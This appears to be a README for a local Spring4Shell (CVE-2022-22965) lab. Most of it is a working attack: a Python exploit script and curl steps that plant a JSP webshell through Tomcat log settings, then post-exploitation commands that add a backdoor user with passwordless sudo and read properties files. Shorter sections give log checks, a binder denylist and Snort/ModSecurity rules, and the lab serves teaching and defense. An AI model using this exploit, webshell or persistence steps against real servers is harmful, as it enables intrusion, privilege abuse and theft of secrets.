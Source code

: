 # Spring4Shell (CVE-2022-22965)

## Overview
Spring4Shell (also known as SpringShell) is a critical remote code execution vulnerability in Spring Framework. This lab demonstrates CVE-2022-22965 exploitation in a vulnerable Spring application.

## Quick Start

**Access URL**: http://localhost:8085

**Vulnerability**: Spring Framework RCE via Data Binding

**Affected Versions**: 
- Spring Framework 5.3.0 to 5.3.17
- Spring Framework 5.2.0 to 5.2.19
- Older unsupported versions

## Vulnerability Details

### The Vulnerability
Spring4Shell exploits class loader manipulation through data binding functionality. When certain conditions are met, attackers can modify Tomcat's logging properties to write a malicious JSP file.

### Prerequisites for Exploitation
1. JDK 9 or higher
2. Spring Framework (vulnerable versions)
3. Deployed as WAR on Apache Tomcat
4. Spring MVC with specific binding configurations

## Exploitation

### 1. Detection
```bash
# Check if vulnerable
curl -X POST http://localhost:8085/app/upload \
  -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=test"

# If no error, likely vulnerable
```

### 2. Automated Exploit Script
```python
#!/usr/bin/env python3
import requests
import sys

def exploit(url):
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    # Exploit parameters
    data = {
        "class.module.classLoader.resources.context.parent.pipeline.first.pattern": "%{c2}i if(\"j\".equals(request.getParameter(\"pwd\"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter(\"cmd\")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i",
        "class.module.classLoader.resources.context.parent.pipeline.first.suffix": ".jsp",
        "class.module.classLoader.resources.context.parent.pipeline.first.directory": "webapps/ROOT",
        "class.module.classLoader.resources.context.parent.pipeline.first.prefix": "shell",
        "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat": ""
    }
    
    response = requests.post(url, data=data, headers=headers)
    print(f"[+] Exploit sent to {url}")
    print(f"[+] Check: {url}/shell.jsp?pwd=j&cmd=id")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <target_url>")
        sys.exit(1)
    
    exploit(sys.argv[1])
```

### 3. Manual Exploitation Steps
```bash
# Step 1: Set pattern
curl -X POST http://localhost:8085/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di"

# Step 2: Set suffix
curl -X POST http://localhost:8085/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"

# Step 3: Set directory
curl -X POST http://localhost:8085/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT"

# Step 4: Set prefix
curl -X POST http://localhost:8085/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell"

# Step 5: Set fileDateFormat
curl -X POST http://localhost:8085/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

# Step 6: Access webshell
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=whoami"
```

## Understanding the Attack

### Attack Chain
1. **Access Tomcat's AccessLogValve** through Spring's parameter binding
2. **Modify logging configuration** to write malicious JSP files
3. **Control file location and content** through log patterns
4. **Execute commands** through the written JSP webshell

### Key Components
- `class.module.classLoader`: Access to class loader
- `resources.context.parent.pipeline.first`: Access to Tomcat's logging valve
- `pattern`: Content to write (our JSP code)
- `suffix`: File extension (.jsp)
- `directory`: Where to write the file
- `prefix`: Filename prefix

## Post-Exploitation

### 1. Establish Persistence
```bash
# Add backdoor user
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=useradd -m -s /bin/bash hacker"

# Add to sudoers
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=echo 'hacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"
```

### 2. Data Exfiltration
```bash
# Find sensitive files
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=find / -name '*.properties' 2>/dev/null"

# Read application properties
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=cat /app/application.properties"
```

### 3. Lateral Movement
```bash
# Network discovery
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=ifconfig"
curl "http://localhost:8085/shell.jsp?pwd=j&cmd=netstat -an"
```

## Indicators of Compromise

### Log Analysis
```bash
# Check for suspicious patterns in logs
grep -E "class\.|module\.|classLoader\." /var/log/tomcat*/catalina.out

# Look for created JSP files
find /var/lib/tomcat*/webapps -name "*.jsp" -mtime -7
```

### File System Artifacts
- Unexpected JSP files in webapps directories
- Modified access log configurations
- Unusual file prefixes/suffixes

## Mitigation

### 1. Immediate Actions
- Update Spring Framework to patched versions
- Apply vendor patches
- Implement WAF rules

### 2. Configuration Changes
```java
// Disable parameter binding for specific fields
@InitBinder
public void setAllowedFields(WebDataBinder dataBinder) {
    String[] denylist = new String[]{"class.*", "Class.*", "*.class.*", "*.Class.*"};
    dataBinder.setDisallowedFields(denylist);
}
```

### 3. Long-term Solutions
- Regular security updates
- Input validation
- Least privilege principles
- Security monitoring

## Detection Rules

### Snort/Suricata
```
alert http any any -> any any (msg:"Spring4Shell Exploitation Attempt"; content:"class.module.classLoader"; http_client_body; classtype:web-application-attack; sid:1000001; rev:1;)
```

### ModSecurity
```
SecRule REQUEST_BODY|ARGS|ARGS_NAMES "@rx (?:class\.|module\.|classLoader\.)" \
    "id:1000,\
    phase:2,\
    block,\
    msg:'Spring4Shell Exploitation Attempt',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}'"
```

## Learning Objectives
- Understanding Spring Framework data binding
- Class loader manipulation techniques
- WAR deployment vulnerabilities
- Log poisoning attacks
- Webshell deployment methods

## Additional Resources
- [Spring Security Advisory](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)
- [CVE-2022-22965 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965)
- [Spring4Shell Analysis](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/) 